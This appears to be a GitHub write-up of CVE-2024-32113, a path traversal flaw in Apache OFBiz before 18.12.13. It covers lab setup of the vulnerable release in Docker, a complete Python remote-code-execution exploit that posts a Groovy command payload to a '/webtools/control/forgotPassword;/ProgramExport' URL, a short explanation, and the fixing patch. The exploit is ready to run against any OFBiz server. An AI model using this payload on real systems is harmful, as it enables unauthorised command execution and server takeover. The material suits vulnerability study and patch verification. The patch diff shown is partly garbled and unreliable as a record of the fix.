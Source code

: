 # CVE-2024-32113

## Description

Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Apache OFBiz.This issue affects Apache OFBiz: before 18.12.13. Users are recommended to upgrade to version 18.12.13, which fixes the issue.

## Setup

1. Clone the repository

    ```bash
    git clone https://github.com/apache/ofbiz-framework.git ofbiz-framework
    ```

2. Change the directory

    ```bash
    cd ofbiz-framework
    ```

3. Checkout to the vulnerable version

    ```bash
    git checkout release18.12.12
    ```

4. Build the project with docker

    ```bash
    docker build --target demo --tag ofbiz-docker .
    ```

5. Run the project

    ```shell
    docker run -it -p 8443:8443 ofbiz-docker
    ```

Now the project is running on `https://localhost:8443`

## Exploit

Using the following payload, we can execute arbitrary commands on the server:

```python
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit(url, command):
    print("[+] CVE-2024-32113 - Apache OFBiz RCE Exploit")
    print(f"[+] Executing command: {command}")

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    data = f"groovyProgram=throw+new+Exception('{command}'.execute().text);"

    try:
        response = requests.post(url + '/webtools/control/forgotPassword;/ProgramExport', headers=headers, data=data, verify=False)

        if response.status_code == 200:
            print("\n[+] Exploit successful")
            soup = BeautifulSoup(response.text, 'html.parser')
            error_message = soup.find('div', class_='content-messages errorMessage')

            if error_message:
                filtered_output = error_message.get_text().strip()
                print(f"[+] Extracted Payload Response:\n{filtered_output}")
            else:
                print("[-] Couldn't find the expected output in the response.")
        else:
            print("[-] Exploit failed. Status code:", response.status_code)

    except requests.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == '__main__':
    command = input("Enter the shell command you want to execute: ")
    exploit("https://localhost:8443", command)
```

## Explanation

Basically this CVE is a Path Traversal vulnerability, which allows an attacker to execute arbitrary commands on the server. The vulnerability is in the `ControlFilter.java` file, where the URL is not properly validated.

This was fixed by two commits: [commit 1](https://github.com/apache/ofbiz-framework/commit/ff316b6e224b9cb8e3873689f7e6f997af89398a) and [commit 2](https://github.com/apache/ofbiz-framework/commit/b3b87d98ddb1997965f23e2c8356243dbf81dec3)

the overall changes are:

```patch
From ff316b6e224b9cb8e3873689f7e6f997af89398a Mon Sep 17 00:00:00 2001
From: Jacques Le Roux <jacques.le.roux@les7arts.com>
Date: Thu, 11 Apr 2024 15:38:36 +0200
Subject: [PATCH] Fixed: Reject wrong URLs (OFBIZ-13006)

Fixes compile errors when backported from trunk
---
 .../java/org/apache/ofbiz/webapp/control/ControlFilter.java  | 5 ++---
 1 file changed, 2 insertions(+), 3 deletions(-)

diff --git a/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java b/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java
index c77bd57817c..235019f7d47 100644
--- a/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java
+++ b/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java
@@ -21,7 +21,6 @@
 import java.io.IOException;
 import java.net.URI;
 import java.net.URISyntaxException;
-import java.nio.file.Paths;
 import java.util.HashSet;
 import java.util.Set;
 
@@ -136,8 +135,8 @@ public void doFilter(ServletRequest request, ServletResponse response, FilterCha
 
+            // Reject wrong URLs
+            try {
+                String url = new URI(((HttpServletRequest) request).getRequestURL().toString()).normalize().toString();
+                if (!((HttpServletRequest) request).getRequestURL().toString().equals(url)) {
+                    throw new RuntimeException();
+                }
+            } catch (URISyntaxException e) {
+                throw new RuntimeException(e);
+            }
+
```

The change now checks if the URL is valid or not, by normalizing the URL and comparing it with the original URL. If they are not the same, it will throw an exception.
